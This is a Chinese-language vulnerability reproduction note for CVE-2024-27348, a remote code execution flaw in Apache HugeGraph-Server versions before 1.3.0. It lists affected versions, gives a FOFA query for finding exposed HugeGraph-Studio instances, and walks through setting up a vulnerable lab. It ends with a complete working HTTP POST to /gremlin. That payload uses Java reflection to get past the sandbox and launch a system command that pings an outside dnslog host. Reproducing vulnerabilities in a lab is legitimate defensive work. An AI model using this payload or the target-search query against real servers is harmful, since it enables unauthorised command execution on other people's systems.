 # CVE-2024-27348

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache HugeGraph-Server 远程代码执行漏洞



# 0x01 漏洞描述

HugeGraph是一个速度快、高度可扩展的图数据库。由于其出色的 OLTP 能力，HugeGraph 可以轻松存储和查询数十亿个点和边。由于遵循`Apache TinkerPop 3`框架，可以通过Gremlin（一种强大的图遍历语言）实现各种复杂的图查询。`Apache HugeGraph-Server` 中存在 RCE-远程命令执行漏洞

# 0x02 影响范围

```
Apache HugeGraph-Server: from 1.0.0 before 1.3.0.
```

# 0x03 FOFA语法

```bash
app="HugeGraph-Studio"
```

# 0x04 环境搭建

```
wget https://downloads.apache.org/incubator/hugegraph/1.2.0/apache-hugegraph-incubating-1.2.0.tar.gz
tar -zxf apache-hugegraph-incubating-1.2.0.tar.gz
```

然后修改hugegraph.properties文件内容

```
cd apache-hugegraph-incubating-1.2.0/conf/graphs

修改内容如下：
backend=memory
serializer=text
```

修改rest-server.properties文件内容

```bash
cd /root/apache-hugegraph-incubating-1.2.0/conf

修改监听的地址：
restserver.url=http://your-ip:8080

```

启动服务

```
bin/start-hugegraph.sh
```

# 0x05 漏洞复现

```
POST /gremlin HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{"gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"ping\", \"123.ctsvy.dnslog.cn\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");startMethod.invoke(processBuilderInstance);", "bindings": {}, "language": "gremlin-groovy", "aliases": {}}
```
